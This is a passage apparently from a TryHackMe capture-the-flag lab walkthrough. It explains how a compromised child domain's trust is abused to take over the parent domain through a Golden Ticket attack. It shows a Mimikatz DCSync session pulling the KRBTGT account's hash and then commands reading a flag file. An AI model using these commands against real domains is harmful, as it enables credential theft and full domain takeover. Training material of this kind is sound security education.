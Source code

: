 As mentioned above, the trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.

## KRBTGT and Golden Tickets 

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a Golden Ticket attack. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

- The FQDN of the domain
- The Security Identifier (SID) of the domain
- The username of the account we want to impersonate
- The KRBTGT password hash

The first three are usually easy to recover. The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. Luckily for us, we have just compromised the Tier 0 admins group with a forged certificate, so we are in a position to recover the KRBTGT password hash.

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:

```shell-session
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

 .#####. mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ## > https://blog.gentilkiwi.com/mimikatz
 '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
 '#####' > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN : krbtgt

** SAM ACCOUNT **

SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID : 502

Credentials:
 Hash NTLM: removed
 ntlm- 0: removed
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt